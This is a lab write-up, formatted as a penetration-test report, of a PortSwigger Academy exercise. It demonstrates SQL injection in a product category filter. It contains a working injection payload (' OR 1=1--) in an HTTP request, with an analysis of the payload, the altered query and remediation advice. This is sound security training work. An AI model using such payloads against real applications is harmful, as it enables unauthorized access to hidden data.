


# Lab01: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Target:**  PortSwigger Academy - SQL injection vulnerability in WHERE clause  
**Lab URL:** `https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-hidden-data/sql-injection/lab-retrieve-hidden-data`  
**Date:** August 13, 2025  
**Tester:** piz1va0n  
**Duration:** -  

---

## Executive Summary

**Vulnerabilities Found:** 1 Total  
**Risk Breakdown:** 0 Critical | 1 High | 0 Medium | 0 Low

**Key Issues:**

- SQL injection in product category filter allows unauthorized data access

**Overall Risk:**  HIGH 

---

## Scope and Methodology

### Test Scope

**In-Scope Targets:**

- Primary Lab URL: `https://0a8b00f2049c8b5e82e4c7a5009300b2.web-security-academy.net/`
- All web application endpoints and parameters
- Product filtering functionality

### Testing Methodology

**Standards and Frameworks:**

- OWASP Testing Guide v4.2
- PortSwigger Academy Guide

**Testing Phases:**

1. **Reconnaissance** - Application mapping and parameter identification
2. **Vulnerability Discovery** - SQL injection testing on identified parameters
3. **Exploitation** - Proof-of-concept development
4. **Impact Assessment** - Technical impact evaluation
5. **Documentation** - Documentation and remediation guidance

**Tools and Techniques:**

- Burp Suite Community Edition (request interception)
- Browser Developer Tools (response analysis)
- Manual payload crafting and testing

---

## OWASP Top 10 Results

| Category | Finding | Risk | Status |
|----------|---------|------|---------|
| A01: Broken Access Control | [Finding name] | - | - |
| A02: Cryptographic Failures | [Finding name] | - | - |
| A03: Injection | SQL injection | HIGH | ✓ |
| A04: Insecure Design | [Finding name] | - | - |
| A05: Security Misconfiguration | [Finding name] | - | - |
| A06: Vulnerable Components | [Finding name] | - | - |
| A07: Authentication Failures | [Finding name] | - | - |
| A08: Software/Data Integrity | [Finding name] | - | - |
| A09: Logging/Monitoring | [Finding name] | - | - |
| A10: SSRF | [Finding name] | - | - |

---

## Detailed Findings

### HIGH: SQL Injection in Product Filter

**OWASP Category:** A03 - SQL Injection  
**CVSS Score:** 7.5  

|||
|-|-|
| Attack Vector (AV): | Network(N) |
| Attack Complexity (AC): | Low(L) |
| Privileges Required (PR): | None(N) |
| User Interaction (UI): | None(N) |
| Scope (S): | Unchange(U) |
| Confidentiality (C): | High(H) |
| Integrity (I): | None(N) |
| Availability (A): | None(N) |

---

**Location:** `https://0a5a007503ac8026bf82615200d30072.web-security-academy.net/filter?category`

**Description:**
The application's product category filter is vulnerable to SQL injection. The category parameter in the WHERE clause is not properly sanitized, allowing attackers to manipulate the SQL query structure. This enables retrieval of hidden products and potentially sensitive database information.

**Proof of Concept:**

**Original Request (Normal):**

```http
GET /filter?category=Gifts  

Host: 0a5a007503ac8026bf82615200d30072.web-security-academy.net  

```

**Malicious Request (SQL Injection):**

```http
GET /filter?category=Gifts'+OR+1=1-- 

Host: 0a5a007503ac8026bf82615200d30072.web-security-academy.net

```

**Payload Analysis:**

- `Gifts'` - Closes the original string parameter
- `OR 1=1` - Always true condition that bypasses the WHERE filter  
- `--` - SQL comment to ignore remaining query

**Expected SQL Query Behavior:**

```sql
-- Original query (secure)
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

-- Injected query (vulnerable)  
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
-- Everything after -- is commented out
```

**Impact:**

- **Data Exposure:** Access to unreleased/hidden products that should not be visible
- **Business Logic Bypass:** Circumvention of application access controls
- **Information Disclosure:** Potential access to sensitive product data, pricing, or inventory information

**Fix:**

- **Immediate:** Implement parameterized queries/prepared statements
- **Use Object Relational Mapping(ORM)** Use ORM query-building APIs instead of raw SQL strings.
- **Validate Inputs** Check that the data fits expected patterns.

**Evidence:**
*Normal category filter shows only 3 products*


*SQL injection payload reveals >12 products including hidden*


---

## Conclusion

### Assessment Summary

This penetration test successfully identified a **critical SQL injection vulnerability** in the PortSwigger Academy lab application's product filtering functionality. The vulnerability allows unauthorized access to hidden product data through manipulation of the `category` parameter in the WHERE clause of the underlying SQL query.

## Lab Learning Summary

**Skills Practiced:**

- Manual SQL injection identification and exploitation
- WHERE clause manipulation techniques  
- Boolean-based SQL injection testing
- SQL comment injection (`--`) for query termination

**Key Takeaways:**

- Always test input parameters with SQL metacharacters first (`'`, `"`, `;`)
- The `OR 1=1` condition is effective for bypassing WHERE filters
- SQL comments (`--`, `/* */`) are crucial for ignoring unwanted query parts
- Comparing response differences helps confirm successful injection
- Even simple SQL injection can lead to significant data exposure

**Technical Learning:**

- Understanding how user input flows into SQL WHERE clauses
- Recognizing the difference between filtered and unfiltered results
- Importance of parameterized queries for prevention
  